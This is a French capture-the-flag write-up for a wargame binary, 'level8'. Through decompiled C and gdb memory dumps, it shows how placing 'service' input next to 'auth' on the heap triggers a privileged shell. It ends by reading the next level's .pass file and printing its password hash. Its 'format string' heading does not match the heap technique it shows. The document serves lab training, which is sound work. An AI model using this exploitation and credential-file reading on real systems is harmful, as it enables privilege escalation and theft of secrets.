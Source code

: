 
# Format String Exploitation

En décompilant le programme, on observe qu'il y a différents tests pour arriver à une condition finale. Si cette condition est respectée, alors un `shell` avec les droits de `level9` sera lancé.
Observons la condition nécessaire permettant d'exécuter un `shell`.
```C
eax = auth;
eax = *((eax + 0x20));
if (eax != 0) {
	system ("/bin/sh");
	goto label_0;
}
```
Si on traduit le code décompilé pour avoir un code un plus clair, cette est : 
```C
if (auth[32] != '\0') {
	system ("/bin/sh");`
}
```
En effet, `0x20` équivaut à 32 en base10.

Globalement, le code est une boucle infini, qui attend différentes entrées. Si l'entrée est valide, alors on passera à la prochaine condition. Il va donc nous falloir plusieurs étapes pour arriver à la conditon finale vu précédement. 

On remarque dans le premier bloc de code, que l'entrée attendu est `auth `.
```C
 puVar6 = (uint8_t *)"auth ";
        do {
            ...
```
Pour valider notre condition finale, la méthode la plus simple serait donc d'écrire `auth ` suivis de plus de 32 caractères afin que `auth[32]` soit différent de `\0`.

Voyons ça sur `gdb`.

```
> gdb level8
[...]
> (gdb) disas main
[...]
   0x080486a8 <+324>:	mov    %eax,(%esp)
   0x080486ab <+327>:	call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:	mov    %eax,0x8049ab0
[...]
> (gdb) b *0x080486ab
[...]
> (gdb) r 
Starting program: /home/user/level8/level8
(nil), (nil)
auth sdfsd
0x804a008, (nil)
service

Breakpoint 2, 0x080486ab in main ()
> (gdb) x/s 0x804a008
0x804a008:	 "sdfsd\n"
```

Ici, nous avons `break` au niveau du `strdup`. Cette fonction est appelée lorsqu'on saisis `service` comme entrée. Nous pouvons à cet endroit afficher la valeur de `auth `.
Lorsque qu'on saisi `auth `, le programme nous r'envoie son adresse. On peut donc afficher son adresse afin d'en connaitre son contenu.
La valeur de `auth ` est ici `sdfsd\n`. Nous pouvons maintenant essayer de mettre plus de caractères afin de valider la condition `auth[32] != '\0'`.

```
> (gdb) b *0x080486ab
[...]
> (gdb) r
Starting program: /home/user/level8/level8
(nil), (nil)
auth AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, (nil)
service 

Breakpoint 2, 0x080486ab in main ()
> (gdb) x/s 0x804a008
0x804a008:	 ""
> (gdb) x/x 0x804a008
0x804a008:	0x00
```

On observe que `auth ` est maintenant égal  à `NULL`. En regardant le code, on remarque `auth ` va être `malloc`, puis le premier octet va être mis à 0. 
Si il y a moins de moins de 31 caractères, notre input va être copié dans `auth `. 


```C
_auth = (undefined4 *)malloc(4);
*_auth = 0;
```

```C
if (str1 < 0x1f) {
	strcpy(_auth, acStack139);
}
```

`0x1f` correspond à 31 en `base 10`.

Nous allons donc devoir trouver une autre solution pour arriver à notre condition finale.

Nous allons maintenant manipuler la stack afin de comprendre un peu mieux le fonctionnement du programme.
Nous allons `break` au niveau du `strcpy` pour voir si notre premiere entrée, à savoir `auth ` rentre dans cette fonction.
Un seconde break au niveau du `strdup` pour voir si notre seconde entrée, à savoir `service` rentre dans cette fonction.
Et un troisième `break` au niveau d'un `mov` qui va ajouter `0x20`à `esp`. En effet, c'est le seule endroit, ou on pourra afficher rentrée toutes nos entrées et pouvoir les afficher. 

```
> gdb ./level8
[...]
(gdb) b *0x0804863d
Breakpoint 1 at 0x804863d
(gdb) b *0x080486ab
Breakpoint 2 at 0x80486ab
(gdb) b *0x080486e7
Breakpoint 3 at 0x80486e7
> r 
[...]
auth 
Breakpoint 1, 0x0804863d in main ()
> (gdb) x/10wx $esp
0xbffff670:	0x0804a008	0xbffff695	0xb7fd1ac0	0xb7fd0ff4
0xbffff680:	0xbffff6ce	0xbffff6cf	0x00000001	0xffffffff
0xbffff690:	0x68747561	0xbf000a20
(gdb) x 0xbffff695
0xbffff695:	0x00bf000a
```

On va décomposer un petit peu. Ici, nous avons saisis `auth ` au niveau du `break` à `strcpy`. On rentre donc bien dans cette fonction. Pour rappele, voici le code correspondant.

```C
  if (stre < 0x1f) {
	strcpy(_auth, acStack139);
}
```

Notre premier argument est à l'adresse `0x0804a008`. `0xbffff695` est l'adresse du second argument de `strcpy`. Si on affiche cet argument, on obtient `0x00bf000a`, mais c'est le `a` qui nous intéresse. Le programme va donc copier `a` dans `auth `.

On peut vérifier cela en continuant notre affichage de la stack.

```
> (gdb) ni
0x08048642 in main ()
> (gdb) x/8wx 0x0804a008
0x804a008:	0x0000000a	0x00000000	0x00000000	0x00020ff1
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
```

On voit bien qu'on retrouve notre `a` en affichant `auth `. Continuons dans notre programme.

```
> (gdb) c
Continuing.
0x804a008, (nil)
service

Breakpoint 2, 0x080486ab in main ()
> (gdb) x/12wx $esp
0xbffff670:	0xbffff697	0x00000080	0xb7fd1ac0	0xb7fd0ff4
0xbffff680:	0xbffff6ce	0xbffff6cf	0x00000001	0xffffffff
0xbffff690:	0x76726573	0x0a656369	0x00000000	0xb7ff3fec
> (gdb) ni
0x080486b0 in main ()
> (gdb) x 0x0804a008
0x804a008:	0x0000000a
> (gdb) x/12wx 0x0804a008
0x804a008:	0x0000000a	0x00000000	0x00000000	0x00000011
0x804a018:	0x0000000a	0x00000000	0x00000000	0x00020fe1
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
```

On rentre donc bien dans la fonction `strdup`. Voici le bout de code lié à cette fonction.

```C
_service = strdup(auStack137);
```
En affichant la stack, on observe que le contenu de `auth ` est le même que `service`. On voit bien que le contenu de l'adresse de service (`0x804a018`) est bien `0x0000000a`. 
On retrouve donc notre `a`.

Continuons dans notre observation. 

```
> (gdb) c
[...]
login

Breakpoint 3, 0x080486e7 in main ()
> (gdb) x $eax
0x804a008:	0x0000000a
> (gdb) x $eax+0x20
0x804a028:	0x00000000
> (gdb) x/12wx 0x0804a008
0x804a008:	0x0000000a	0x00000000	0x00000000	0x00000011
0x804a018:	0x0000000a	0x00000000	0x00000000	0x00020fe1
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
```

Ici, on observe que `eax` à bien notre `a`, mais qu'a `eax+0x20`,  `0x804a028` est égal a `NULL`. On a fait `+0x20`, car on a vu précédement, qu'il y avait une comparaison avec `eax+0x20`. Si on regarde la `stack`, on observe qu'a l'adresse `0x804a028`, le contenu est nulle. Il va donc falloir qu'on écrive au minimum `16` caractères après `service` pour que `eax+0x20 != '\0'`. On peut téster ça `gdb`.


```
> (gdb) b *0x080486e7
[...]
> (gdb) r
auth
[...]
serviceAAAAAAAAAAAAAAAA
[...]
login

Breakpoint 1, 0x080486e7 in main ()
(gdb) x $eax
0x804a008:	0x0000000a
(gdb) x $eax+0x20
0x804a028:	0x0000000a
(gdb) x/12wx 0x0804a008
0x804a008:	0x0000000a	0x00000000	0x00000000	0x00000019
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x0000000a	0x00020fd9	0x00000000	0x00000000
```

On voit bien que `x $eax+0x20` est bien différent de `'\0'`. Il nous suffit de continuer le programme. 

```
> (gdb) c
Continuing.
$
```

Nous obtenons bien un shell !

```
> ./level8
[...]
> auth 
0x804a008, (nil)
> service AAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
> login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
``` 

